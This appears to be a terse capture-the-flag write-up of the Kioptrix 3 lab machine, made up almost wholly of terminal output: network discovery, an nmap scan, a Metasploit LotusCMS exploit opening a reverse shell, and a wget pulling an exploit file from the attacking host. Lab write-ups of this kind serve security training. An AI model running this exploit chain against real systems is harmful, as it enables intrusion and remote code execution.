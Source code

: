 ```yaml
---
layout: single
title: Kioptrix 3!
---
```


summer@kali:~$ sudo netdiscover -i eth0 -r 10.0.0./24

 Currently scanning: Finished!   |   Screen View: Unique Hosts                                     
                                                                                                   
 7 Captured ARP Req/Rep packets, from 7 hosts.   Total size: 420                                   
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 10.0.0.1        18:9c:27:b2:74:fd      1      60  ARRIS Group, Inc.
 10.0.0.77       14:4f:8a:d6:05:a1      1      60  Intel Corporate                                 
 10.0.0.26       34:4d:f7:5e:dd:60      1      60  LG Electronics (Mobile Communications)          
 10.0.0.174      94:65:2d:8c:2f:7f      1      60  OnePlus Technology (Shenzhen) Co., Ltd          
 10.0.0.236      00:0c:29:4b:25:d5      1      60  VMware, Inc.                                    
 10.0.0.232      14:10:9f:e6:43:99      1      60  Apple, Inc.                                     
 10.0.0.254      18:9c:27:b2:74:fe      1      60  ARRIS Group, Inc.  




Starting Nmap 7.70 ( https://nmap.org ) at 2018-12-16 22:47 EST
Nmap scan report for 10.0.0.236
Host is up (0.0010s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Ligoat Security - Got Goat? Security ...
MAC Address: 00:0C:29:4B:25:D5 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel




msf > use exploit/multi/http/lcms_php_exec 
msf exploit(multi/http/lcms_php_exec) > show options

Module options (exploit/multi/http/lcms_php_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                     yes       The target address
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   URI      /lcms/           yes       URI
   VHOST                     no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic LotusCMS 3.0


msf exploit(multi/http/lcms_php_exec) > set RHOST 10.0.0.236
RHOST => 10.0.0.236
msf exploit(multi/http/lcms_php_exec) > set RPORT 80
RPORT => 80
msf exploit(multi/http/lcms_php_exec) > set URI /
URI => /
msf exploit(multi/http/lcms_php_exec) > set payload generic/shell_reverse_tcp 
payload => generic/shell_reverse_tcp
msf exploit(multi/http/lcms_php_exec) > exploit

[-] Exploit failed: The following options failed to validate: LHOST.
[*] Exploit completed, but no session was created.
msf exploit(multi/http/lcms_php_exec) > set LHOST 10.0.0.241
LHOST => 10.0.0.241
msf exploit(multi/http/lcms_php_exec) > exploit

[*] Started reverse TCP handler on 10.0.0.241:4444 
[*] Using found page param: /index.php?page=index
[*] Sending exploit ...
[*] Command shell session 1 opened (10.0.0.241:4444 -> 10.0.0.236:54037) at 2018-12-16 23:01:40 -0500

whoami
www-data

wget http://10.0.0.241:8000/exploit.c

